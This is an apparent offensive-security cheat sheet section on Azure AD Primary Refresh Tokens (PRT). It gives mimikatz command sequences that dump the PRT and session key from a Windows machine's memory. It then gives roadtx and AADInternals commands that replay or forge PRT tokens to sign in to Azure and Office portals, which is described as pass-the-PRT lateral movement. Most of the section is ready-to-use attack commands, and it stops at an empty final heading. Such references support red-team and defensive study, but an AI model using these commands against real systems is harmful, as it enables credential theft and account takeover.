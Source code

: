 
## Primary Refresh Token

A Primary Refresh Token (PRT) is a key artifact in the authentication and identity management process in Microsoft's Azure AD (Azure Active Directory) environment. The PRT is primarily used for maintaining a seamless sign-in experience on devices. 

:warning: A PRT is valid for 90 days and is continuously renewed as long as the device is in use. However, it's only valid for 14 days if the device is not in use. 

* Use PRT token
    ```ps1
    roadtx browserprtauth --prt <prt-token> --prt-sessionkey <session-key>
    roadtx browserprtauth --prt roadtx.prt -url http://www.office.com
    ```


### Extract PRT v1 - Pass-the-PRT

MimiKatz (version 2.2.0 and above) can be used to attack (hybrid) Azure AD joined machines for lateral movement attacks via the Primary Refresh Token (PRT) which is used for Azure AD SSO (single sign-on).

* Use mimikatz to extract the PRT and session key
    ```ps1
    mimikatz # privilege::debug
    mimikatz # token::elevate
    mimikatz # sekurlsa::cloudap
    mimikatz # sekurlsa::dpapi
    mimikatz # dpapi::cloudapkd /keyvalue:<key-value> /unprotect
    mimikatz # dpapi::cloudapkd /context:<context> /derivedkey:<derived-key> /Prt:<prt>
    ```
* Use either roadtx or AADInternals to generate a new PRT token
    ```ps1
    roadtx browserprtauth --prt <prt> --prt-sessionkey <clear-key> --keep-open -url https://portal.azure.com

    PS> Import-Module C:\Tools\AADInternals\AADInternals.psd1
    PS AADInternals> $PRT_OF_USER = '...'
    PS AADInternals> while($PRT_OF_USER.Length % 4) {$PRT_OF_USER += "="}
    PS AADInternals> $PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($PRT_OF_USER))
    PS AADInternals> $ClearKey = "XXYYZZ..."
    PS AADInternals> $SKey = [convert]::ToBase64String( [byte[]] ($ClearKey -replace '..', '0x$&,' -split ',' -ne ''))
    PS AADInternals> New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
    ```


### Extract PRT on Device with TPM

* No method known to date.


### Request a PRT using the Refresh Flow
